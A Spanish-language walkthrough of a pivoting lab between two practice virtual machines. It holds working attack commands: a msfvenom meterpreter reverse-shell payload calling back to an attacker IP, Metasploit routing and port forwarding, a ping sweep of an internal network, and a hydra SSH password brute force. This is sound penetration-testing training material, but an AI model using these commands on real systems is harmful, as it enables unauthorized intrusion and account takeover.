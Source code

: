 Usaremos la máquina friendly 1 intermedia y la máquina basic de vulnyx máquina final:
![[Pasted image 20240615202221.png]]

Procedemos con la intrusión en la máquina friendly 1 hasta ser usuario root:
![[Pasted image 20240615202227.png]]

Ahora vamos a recibir esta conexión como meterpreter en la máquina atacante, por lo que creamos un nuevo payload con msfvenom:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.32 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus
```
Y nos lo compartimos con la máquina víctima:
![[Pasted image 20240615202239.png]]

![[Pasted image 20240615202243.png]]
Y usamos el multi/handler de metasploit cargando el payload de meterpreter:
```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
```

![[Pasted image 20240615202254.png]]

![[Pasted image 20240615202302.png]]

Y recibimos el meterpreter:
![[Pasted image 20240615202316.png]]

Vemos las interfaces de red con el comando ipconfig, donde identificamos la segunda interfaz de red:
![[Pasted image 20240615202322.png]]

Enrutamos el tráfico con el módulo de autoroute:
```bash
use /multi/manage/autoroute
```

![[Pasted image 20240615202330.png]]
Y ahora tenemos que encontrar equipos levantados dentro de esta red interna de 10.10.10.0/24, por lo que usamos el siguiente script:
```bash
#!/bin/bash

for i in {1..255}; do
    timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
    if [ $? -eq 0 ]; then
        echo "El host 10.10.10.$i está activo"
    fi
done
```
Lo compartimos:
![[Pasted image 20240615202340.png]]

Lo recibimos:
![[Pasted image 20240615202346.png]]

Y encontramos el host objetivo:
![[Pasted image 20240615202353.png]]

Ahora tenemos que hacerle un escaneo de puertos a esta dirección IP, por lo que usamos el módulo de portscan/tcp:
![[Pasted image 20240615202402.png]]

Y con los siguientes comandos realizamos el port forwarding, de tal forma que nos vamos a traer tanto el puerto 22 como el puerto 631:
```bash
portfwd add -l 222 -p 22 -r 10.10.10.8
portfwd add -l 631 -p 631 -r 10.10.10.8
```

![[Pasted image 20240615202410.png]]

Y aquí vemos el contenido de lo que corre por el puerto 631:
![[Pasted image 20240615202416.png]]

Detectamos el usuario:
![[Pasted image 20240615202422.png]]

Por lo que atacamos al puerto ssh que también nos hemos traído en el puerto 222 de mi máquina local:
```bash
hydra -l dimitri -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1 -s 222
```
